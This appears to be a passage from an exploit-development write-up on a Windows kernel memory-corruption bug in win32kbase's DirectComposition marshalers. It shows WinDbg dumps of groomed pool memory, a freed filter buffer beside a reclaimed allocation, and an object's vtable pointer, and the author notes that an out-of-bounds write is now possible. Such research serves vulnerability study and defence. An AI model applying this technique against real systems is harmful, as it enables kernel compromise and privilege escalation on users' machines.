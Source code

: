 ```
ffffb38d`4733e030  00000000`00000045
ffffb38d`4733e038  00000010`00000045
ffffb38d`4733e040  00000020`00000045
ffffb38d`4733e048  00000030`00000045
ffffb38d`4733e050  00000040`00000045
ffffb38d`4733e058  20000050`00000023
ffffb38d`4733e060  20000058`00000023
ffffb38d`4733e068  200000b8`00000023   <--freed CTableTransferEffectMarshaler filter buffer data
ffffb38d`4733e070  62664344`2b050000
ffffb38d`4733e078  c26b75e1`5e3efe0c
ffffb38d`4733e080  cafebabe`cafed00d   <--allocated CTableTransferEffectMarshaler filter buffer
ffffb38d`4733e088  cafebabe`cafed00d
ffffb38d`4733e090  cafebabe`cafed00d
ffffb38d`4733e098  cafebabe`cafed00d
ffffb38d`4733e0a0  cafebabe`cafed00d
ffffb38d`4733e0a8  cafebabe`cafed00d
ffffb38d`4733e0b0  200000b8`00000023
ffffb38d`4733e0b8  200000b8`00000023
ffffb38d`4733e0c0  77707355`23050000
ffffb38d`4733e0c8  00000000`00000000
1: kd> dqs ffffb38d`465b08f0
ffffb38d`465b08f0  cafebabe`cafebabe
ffffb38d`465b08f8  cafebabe`cafebabe
ffffb38d`465b0900  cafebabe`cafebabe
ffffb38d`465b0908  cafebabe`cafebabe
ffffb38d`465b0910  cafebabe`cafebabe
ffffb38d`465b0918  cafebabe`cafebabe
ffffb38d`465b0920  cafebabe`cafebabe
ffffb38d`465b0928  cafebabe`cafebabe
ffffb38d`465b0930  cafebabe`cafebabe
ffffb38d`465b0938  cafebabe`cafebabe
ffffb38d`465b0940  cafebabe`cafebabe
ffffb38d`465b0948  cafebabe`cafebabe
ffffb38d`465b0950  62704344`2b070000
ffffb38d`465b0958  c26b75e1`5f56172c
ffffb38d`465b0960  ffffb3d4`0f73c470 win32kbase!DirectComposition::CPropertySetMarshaler::`vftable'
ffffb38d`465b0968  00000000`00000000
```

Perfect! :D We Should be able to write out of bounds at some arbitrary offset now. If we write some junk to *this+0x48 (offset +0xb8 into propertyset buffer) we will get a bluescreen when CPropertySetMarshaler calls its destructor

```
1: kd> dqs poi(rbx+48h) L40
fffff4cf`8703fde0  200000b8`00000023
fffff4cf`8703fde8  200000b8`00000023
fffff4cf`8703fdf0  200000b8`00000023
fffff4cf`8703fdf8  200000b8`00000023
fffff4cf`8703fe00  200000b8`00000023
fffff4cf`8703fe08  200000b8`00000023
fffff4cf`8703fe10  200000b8`00000023
fffff4cf`8703fe18  200000b8`00000023
fffff4cf`8703fe20  200000b8`00000023
fffff4cf`8703fe28  200000b8`00000023
fffff4cf`8703fe30  cafebabe`cafebabe
fffff4cf`8703fe38  cafebabe`cafebabe
fffff4cf`8703fe40  62704344`2b070000
fffff4cf`8703fe48  c9699838`25e9b8ca
fffff4cf`8703fe50  fffff4a9`cfd3c470 win32kbase!DirectComposition::CPropertySetMarshaler::`vftable'
fffff4cf`8703fe58  00000000`00000000
fffff4cf`8703fe60  00000001`00000001
fffff4cf`8703fe68  00000000`00000200
fffff4cf`8703fe70  00000000`00000000
```